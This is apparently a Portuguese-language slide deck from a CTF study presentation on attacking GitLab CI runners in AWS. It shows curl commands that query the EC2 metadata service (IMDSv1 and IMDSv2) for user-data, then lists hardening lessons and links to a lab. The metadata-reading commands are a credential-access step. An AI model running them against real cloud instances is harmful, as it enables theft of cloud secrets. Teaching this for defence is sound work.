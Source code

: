 🔥 Do runner à AWS com um simples `curl`

<v-clicks>

IMDSv2
```bash {0|1|2|all}
TOKEN=`curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"`
curl -H "X-aws-ec2-metadata-token: $TOKEN" -v http://169.254.169.254/latest/user-data/
```

IMDSv1
```bash {0|all}{at:'+1'}
curl -v http://169.254.169.254/latest/user-data/
```

</v-clicks>

<style>
.imds {
  background-color:rgb(43, 182, 143);
  background-image: linear-gradient(45deg,rgb(78, 212, 132) 25%,rgb(20, 140, 122) 55%);
  background-size: 100%;
  -webkit-background-clip: text;
  -moz-background-clip: text;
  -webkit-text-fill-color: transparent; 
  -moz-text-fill-color: transparent;
}
</style>


---

# Lições <span>aprendidas</span>

<v-clicks depth="2">

- CI/CD é parte crítica da segurança da sua infra  
- Proteja:
  - Acesso ao GitLab ([GitLab Security Best Practices](https://about.gitlab.com/security/hardening/))  
  - Configuração dos runners ([GitLab Runner Security](https://docs.gitlab.com/runner/security/))  
  - Permissões de instâncias AWS  
  - Monitoramento de pipelines e infra

</v-clicks>

---

# <span>Estude</span> com a <span>gente</span>

- Refaça o lab:  
  👉 [hackingthe.cloud/aws/cicdont](https://hackingthe.cloud/aws/capture_the_flag/cicdont/)  
- Participe da comunidade: [sunsec.net](http://sunsec.net)  
- Acesse nosso mini CTF e entre no grupo de estudos
- Colabore com labs e dinâmicas futuras!

